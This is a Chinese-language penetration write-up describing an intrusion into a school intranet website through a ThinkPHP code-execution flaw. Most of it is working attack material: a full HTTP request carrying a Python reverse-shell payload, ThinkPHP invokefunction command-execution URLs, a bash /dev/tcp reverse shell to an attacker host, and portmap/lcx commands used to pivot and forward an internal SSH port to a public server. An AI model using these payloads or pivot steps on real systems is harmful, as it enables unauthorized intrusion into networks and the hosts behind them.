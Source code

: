 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close

id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（或者将其再类似系统上编译好了直接传到目标机器上也可以）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

```
portmap --help
bkbll的套接字数据传输工具（bkbll@cnhonker.net）
用法：./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
 -v：version
 -h1：host1 
 -h2：host2 
 -p1：port1 
 -p2：port2 
 -log：记录数据
 -m：此工具的操作方法
    1：侦听PORT1并连接到HOST2：PORT2 #将内网中的h2的p2转发到处于内网的本机的p1端口
    2：侦听PORT1和PORT2 #本地端口转发
    3：连接到HOST1：PORT1和HOST2：PORT2  #将内网中的h2的p2端口转发到公网
让我退出......全部超过

E:\Desktop>lcx.exe --help
第一条和第三配合使用。如在本机上监听 -listen 51 3389，在肉鸡上运行-slave 本机ip 51 肉鸡ip 3389
那么在本地连127.0.1就可以连肉鸡的3389.第二条是本机转向。如-tran 51 127.0.0.1 3389 ==========

[Usage of Packet Transmit:]
  lcx.exe -<listen|tran|slave> <option> [-log logfile]

[option:]
  -listen <ConnectPort> <TransmitPort>
  -tran   <ConnectPort> <TransmitHost> <TransmitPort>
  -slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
# lcx命令类似 顺序不相同
```
目标机上的抓发命令`./portmap -m 3 -h1 公网IP -p1 公网端口 -h2 123.123.123.124 -p2 22`
公网服务器上进行接收`./portmap -m 2 -p1 6666 -p2 443`

此时连接ssh root@45.76.101.190 -p 443 就是相当于连接123.123.123.124的22（ssh）
**这里面的h2不一定是目标机，只要目标机能访问到的内网资源都可以被转发**